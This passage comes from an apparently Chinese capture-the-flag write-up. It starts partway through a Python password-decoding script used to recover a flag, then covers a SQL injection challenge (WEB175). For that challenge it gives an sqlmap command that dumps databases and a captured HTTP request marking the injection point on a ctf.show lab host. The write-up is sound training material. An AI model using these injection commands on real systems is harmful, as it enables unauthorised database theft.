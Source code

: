 ```python

    # 按照映射表还原
    for key, value in mapping.items():
        encoded_password = encoded_password.replace(key, value)

    return encoded_password

# 手动输入要还原的内容
encoded_result = input("请输入要还原的字符串: ")
restored_result = restore_password(encoded_result)
print(f"还原后的密码: {restored_result}")
```

![Pasted image 20240810234019.png](/img/user/picture/Pasted%20image%2020240810234019.png)
还原出flag


# WEB175 无过滤注入5

![Pasted image 20240811010435.png](/img/user/picture/Pasted%20image%2020240811010435.png)
这一题把所有字符都给屏蔽了，所以只能时间盲注了，看WP看可以将数据输出到服务器文件中，但是我没做出来。。。

这里我就只用sqlmap试了一下，因为方便点

```shell
sqlmap -r test.txt  -p "id" --dump -dbs
```

```txt
GET /api/v5.php?id=*&page=1&limit=10 HTTP/1.1
Host: 58ec20e0-2874-4c8e-9fd6-610634b1d475.challenge.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: http://58ec20e0-2874-4c8e-9fd6-610634b1d475.challenge.ctf.show/select-no-waf-5.php
DNT: 1
Connection: close
```

![Pasted image 20240811010704.png](/img/user/picture/Pasted%20image%2020240811010704.png)


